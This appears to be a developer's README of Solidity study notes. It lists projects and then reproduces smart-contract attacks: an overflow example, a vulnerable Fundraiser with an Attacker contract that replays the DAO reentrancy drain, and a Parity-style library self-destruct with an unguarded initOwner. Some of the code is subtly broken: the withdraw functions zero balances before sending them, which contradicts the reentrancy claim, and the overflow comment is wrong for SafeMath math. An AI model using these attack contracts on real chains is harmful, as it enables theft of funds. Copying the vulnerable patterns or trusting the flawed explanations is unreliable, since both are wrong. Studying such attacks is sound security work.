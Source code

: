 # Saula-Atama

Software Develpment Projects\
Scales
Fantasy Football
Coin Tracker
seasons2
Pupparazzi
Royal KV

BlockChain
Multi Sig Wallet
Decentralised Exchange
Coin Tracker
Voting.
Token.



// KEEP IT SIMPLE , WHEN CODING SMART CONTRACT... I CANNOT EMPASIS HOW IMPORTANT IT IS FOR YOUR CODE TO BE SIMPLE, AND NOT COMPLEX BECAUSE OF LIBRARYS GETTING NUKED, OR PUBLIC FUCTION HAVING MUKLTIPLE ATTACKS ON IT FROM EXTERNAL FUCNTIONS.

// one way of getting AROUND SMART CONTRACTS immutability is using upgardeability and thats using a proxy contract on the side, kind like a new block or of code just needs to be wired up
// When dealing with Upgradeabnility as well the proxy and storage page or blocks remain, the function page or block will be removed and a new Func page can be added.

// The basis of security checks for any solidity smart contract is CHECKS-EFFECTS-INTERACTIONS Pattern.

pragma solidity ^0.4.10;

import "./SafeMath.sol";

contract Overflow{

    mapping (address=>uint) balances;

    function contribute() payable{
        balances[msg.sender] = msg.value;
    }

    function getBalance() constant returns (uint){
        return balances[msg.sender];
    }

    function batchSend(address[] _receivers, uint _value){
        // this line overflows
        uint total = SafeMath.mul(_receivers.length, _value);
        require(balances[msg.sender]>=total);

        // subtract from sender
        balances[msg.sender] = SafeMath.sub(balances[msg.sender], total);

        for(uint i=0;i<_receivers.length;i++){
            balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value);
        }
    }

}






pragma solidity ^0.4.10;

library SafeMath {

  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    //assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}



REPLICATING THE DAO ATTACK
pragma solidity ^0.4.8;


contract Fundraiser{
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        if(balances[msg.sender] == 0){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

import "./Fundraiser.sol";

contract Attacker{
    
    address public fundraiserAddress;
    uint public drainTimes = 0;
    
    function Attacker(address victimAddress){
        fundraiserAddress = victimAddress;
    }
 
    function() payable{
        if(drainTimes<3){
            drainTimes++;
            Fundraiser(fundraiserAddress).withdraw();
        }
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
    function payMe() payable{
        Fundraiser(fundraiserAddress).contribute.value(msg.value)();
    }
    
    function startScam(){
        Fundraiser(fundraiserAddress).withdraw();
    }
}
// what the attcker code soes is that it kkeps calling the function of the DAO without the DAO recordeing that it has called a refund.
// Coding smart contracts , keep it simple, a good contract is simple to read and written in a simple manner, adding complexiticity like adding librarys or dependencies in libraries will present vulnerablities to your smart contract, example in injecting malicious code, calling a public function with fallbacks. which will cause major damages.


Parity Freeze attack

pragma solidity ^0.4.8;
import "./Library.sol";

contract Fundraiser{
    
    Library lib = Library(0xbbf289d846208c16edc8474705c748aff07732db);
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        //if(balances[msg.sender] == 0)
        if(lib.isNotPositive(balances[msg.sender])){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

contract Library{
    
    address owner;
    
    function isNotPositive(uint number) returns (bool){
        if(number<=0){
            return true;
        }
        return false;
    }
    

    function destroy() public onlyOwner {
        selfdestruct(owner);
    }
    
    modifier onlyOwner {
        if(msg.sender != owner){
            throw;
        }
        _;
    }
    
    function initOwner(){
        if(owner==address(0)){
            owner = msg.sender;
        }
        else{
            throw;
        }
    }
    
}

The DAO hacker was the recursive refund function hack, the parity bug was when they nuked the library rendering the fuction unuseable.


